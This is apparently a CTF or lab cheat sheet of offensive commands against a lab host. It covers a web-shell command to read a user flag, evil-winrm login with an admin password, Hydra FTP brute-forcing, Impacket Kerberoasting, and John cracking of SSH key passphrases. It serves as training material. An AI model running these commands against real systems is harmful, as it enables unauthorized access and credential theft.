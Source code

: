Example - user flag
```sh
curl http://10.10.1.10/upload/cmd.php?cmd=cat%20/home/henry/Desktop/user.txt
```


# Evil-winrm
Install
```
root@kali [~/evil-winrm]# bundle install
```

```sh
evil-winrm -i 10.10.1.10 -u Administrator -p '#ADMINISTRATOR1998’
```


# Hydra
## Hydra FTP
```sh
hydra -l rex -P /usr/share/wordlists/rockyou.txt -u 10.10.1.10 ftp
```


# Impacket
Clock skew
```sh
apt update; apt install ntpdate; ntpdate 10.10.1.10; hwclock --systohc
```

```sh
python3 /usr/share/doc/python3-impacket/examples/GetUserSpn.py -dc-ip 10.10.1.10 CyberQ.local/faiz:rebelde -request
```


# John

SSH passphrase
```sh
/usr/share/john/ssh2john.py id_rsa > id_rsa.hash
```

```sh
john id_rsa.hash
```

```sh
john -w /usr/share/wordlists/rockyou.txt id_rsa.hash
```

```sh
john -w /usr/share/wordlists/rockyou.txt --format=Raw-SHA256 id_rsa.hash
```
